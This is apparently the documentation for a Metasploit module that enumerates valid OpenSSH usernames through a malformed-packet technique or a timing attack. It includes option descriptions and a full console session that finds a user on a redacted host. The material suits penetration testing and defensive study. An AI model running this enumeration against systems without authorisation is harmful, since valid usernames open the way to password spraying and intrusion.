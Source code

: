 ## Introduction

This module uses a malformed packet or timing attack to enumerate users on
an OpenSSH server.

Testing note: invalid users were logged, while valid users were not. YMMV.

## Actions

**Malformed Packet**

The default action sends a malformed (corrupted) `SSH_MSG_USERAUTH_REQUEST`
packet using public key authentication (must be enabled) to enumerate users.

**Timing Attack**

On some versions of OpenSSH under some configurations, OpenSSH will return a
"permission denied" error for an invalid user faster than for a valid user,
creating an opportunity for a timing attack to enumerate users.

## Options

**USERNAME**

Single username to test (username spray).

**USER_FILE**

File containing usernames, one per line.

**THRESHOLD**

Amount of seconds needed before a user is considered found (timing attack only).

**CHECK_FALSE**

Check for false positives (random username).

## Usage

```
msf5 > use auxiliary/scanner/ssh/ssh_enumusers
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(scanner/ssh/ssh_enumusers) > echo $'wvu\nbcook' > users
[*] exec: echo $'wvu\nbcook' > users

msf5 auxiliary(scanner/ssh/ssh_enumusers) > set user_file users
user_file => users
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set verbose true
verbose => true
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using malformed packet technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set action Timing Attack
action => Timing Attack
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] [redacted]:22 - SSH - Using timing attack technique
[*] [redacted]:22 - SSH - Starting scan
[+] [redacted]:22 - SSH - User 'wvu' found
[-] [redacted]:22 - SSH - User 'bcook' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_enumusers) > creds
Credentials
===========

host         origin       service       public  private  realm  private_type
----         ------       -------       ------  -------  -----  ------------
[redacted]   [redacted]   22/tcp (ssh)  wvu

msf5 auxiliary(scanner/ssh/ssh_enumusers) >
```
